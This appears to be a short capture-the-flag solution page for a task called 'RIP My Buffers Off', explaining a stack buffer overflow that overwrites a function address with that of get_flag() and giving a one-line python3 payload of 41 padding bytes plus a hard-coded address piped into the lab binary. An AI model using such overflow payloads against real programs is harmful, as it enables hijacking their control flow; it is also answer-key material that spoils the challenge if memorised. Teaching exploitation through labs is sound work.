```yaml
---
nav_order: 1
parent: 'Task: RIP My Buffers Off'
---
```


# Solution

The function address on the stack needs to be overwritten with the address of `get_flag()`.
Before reaching that, the payload needs to pass through some local variables and the EBP.

```sh
python3 -c 'import sys; sys.stdout.buffer.write(b"A"*41 + b"\xd6\x91\x04\x08")' | ./buff-ovf2
```
